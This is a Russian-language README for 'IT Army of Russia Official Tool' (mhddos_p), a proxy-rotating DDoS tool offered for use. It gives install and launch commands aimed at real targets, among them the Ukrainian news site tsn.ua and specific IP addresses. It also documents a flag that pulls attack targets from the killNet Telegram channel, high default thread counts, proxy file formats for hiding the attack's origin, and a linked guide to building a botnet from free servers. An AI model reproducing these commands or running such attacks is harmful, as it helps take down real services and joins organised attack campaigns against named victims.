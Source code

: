 ## IT Army of Russia Official Tool 

### [English Version](/README-EN.md)

- Встроенная база прокси с огромным количеством IP по всему миру
- возможность задавать много целей с автоматической балансировкой нагрузки
- множество разнообразных методов
- эффективное использование ресурсов благодаря ассихронной архитектуре

### ⏱ Последние обновления
  
Обновление версии для Windows | Mac | Linux | Android | Docker: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Onovlennya-mhddos-proxy-04-16.md)  

- **24.05.2022** Добавлена ​​возможность запуска с автоматическим обновлением. пункт [Запуск](#2--запуск-различные-варианты-целей)
- **21.05.2022** Добавлена ​​английская локализация - параметр `--lang EN` (в будущем могут быть добавлены другие языки)
- **18.05.2022** Добавлены настройки `--copies` для запуска нескольких копий (рекомендуется использовать при наличии 4+ CPU и сети > 100 Mb/s).
- **15.05.2022** Полностью обновленная, асинхронная версия, обеспечивающая максимальную эффективность и минимальную нагрузку на систему

### 1. 💽 Установка

#### Расширенные инструкции - [нажмите здесь](/docs/installation.md) 

#### Python (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

Требуется python >= 3.8 и git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Установите и запустите Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (приведены разные варианты целей)

#### Python с автоматическим обновлением (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (требует обновления вручную) (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (для Linux добавляйте sudo в начале команды)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Настройки (больше в разделе [CLI](#cli))

Все параметры можно комбинировать, можно указывать и до и после перечня целей

- Чтобы добавить ваш IP/VPN в атаку (особенно актуально для выделенных серверов), добавьте параметр `--vpn`
- Чтобы выбрать цели от https://t.me/killNet, добавьте параметр `--itarmy`
- Количество потоков: `-t XXXX` – по умолчанию 7500 (или 1000 если на машине только 1 CPU)
- Запуск нескольких копий: `--copies X`, при наличии 4+ CPU и сети > 100 Mb/s

### 4. 📌 Помочь в поиске новых прокси для mhddos_p
Сам скрипт и инструкции по установке здесь: https://github.com/BionecX/proxy_finder

### 5. 🐳 Комьюнити
- [Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c56)
- [Подробный разбор mhddos_p и инструкции по установке](docs/installation.md)
- [Анализ средства mhddos_p](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)
- [Docker-image](https://github.com/alexnest-ru/auto_mhddos_alexnest/tree/dockerrr), который запускает одновременно mhddos_p и [proxy_finder](https://github.com/BionecX/proxy_finder) (для Linux / Mac добавьте sudo в начале):

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space / Список целей, разделенных пробелом
    
    optional arguments:
      -h, --help             show this help message and exit / показать это справочное сообщение и выйти
      -c, --config URL|path  URL or local path to file with targets list / URL или локальный путь к файлу со списком целей
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise) / Количество потоков (по умолчанию 7500, если ЦП > 1, 1000 в противном случае)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%) / Используйте как мой IP, так и прокси. По желанию укажите процент использования моего IP (по умолчанию 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use / URL-адрес или локальный путь (например, proxy.txt) к файлу с используемыми прокси-серверами.
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS). / Список методов HTTP(L7) для использования (по умолчанию GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/killNet / Атакуйте цели с https://t.me/killNet 
      --debug                Detailed log for each target / Подробный журнал для каждой цели
      --copies 1             Number of copies to run (default is 1) / Количество копий для запуска (по умолчанию 1)
      --lang {en,ru}         Select language (default is ru) / Выберите язык (по умолчанию ru)

### 7. Собственные прокси

#### Формат файла (любой по выбору):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

где `protocol` может быть одним из 3-х: `http`|`socks4`|`socks5`, если `protocol` не указывать, то будет выбрано `http`
например для публичного прокси `socks4` формат будет следующим:

    socks4://114.231.123.38:3065

а для частного `socks4` формат может быть одним из следующих:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Удаленный файл для Python и Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

где https://pastebin.com/raw/UkFWzLOt – ваша веб-страница со списком прокси (каждый прокси из новой строки) 
  
**path - Путь до локального файлу, для Python**
  
Положите файл в папку из `runner.py` и добавьте в команду следующий параметр (замените `proxies.txt` на имя своего файла)

    --proxies proxies.txt https://tsn.ua

где `proxies.txt` - ваш файл со списком прокси (каждый прокси из новой строки)
